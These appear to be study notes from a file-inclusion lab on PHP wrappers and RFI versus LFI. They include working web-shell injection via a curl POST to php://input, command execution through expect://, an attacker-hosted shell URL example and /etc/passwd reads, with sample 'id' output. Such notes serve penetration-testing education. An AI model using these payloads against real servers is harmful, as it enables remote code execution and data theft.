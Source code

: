 Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

PHP Wrappers

```bash
CSmarwen@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid          
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# RCE ( expect Wrapper )

Same thing as before just the configuration needed for the backend server is “extension=expect”

```bash
CSmarwen@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# RFI

## Difference between RFI and LFI

**RFI (Remote File Inclusion)** lets an attacker make the server include a file **hosted on a remote URL** (attacker-controlled) — usually resulting in immediate remote code execution.

**LFI (Local File Inclusion)** makes the server include a file **already on the local filesystem** — usually used to read sensitive files, though it *can* be escalated to code execution with extra tricks.

More detail — side-by-side

- **Source of the file**
    - **RFI:** attacker supplies a remote URL (`http://attacker/shell.php`) and the server fetches & executes it.
    - **LFI:** attacker supplies a local path (`/etc/passwd`, `../../logs/access.log`) and the server reads/includes files from disk.

| **Function** | **Read Content** | **Execute** | **Remote URL** |
| --- | --- | --- | --- |
| **PHP** |  |  |  |
| `include()`/`include_once()` | ✅ | ✅ | ✅ |
| `file_get_contents()` | ✅ | ❌ | ✅ |
| **Java** |  |  |  |
| `import` | ✅ | ✅ | ✅ |
| **.NET** |  |  |  |
| `@Html.RemotePartial()` | ✅ | ❌ | ✅ |
| `include` | ✅ | ✅ | ✅ |
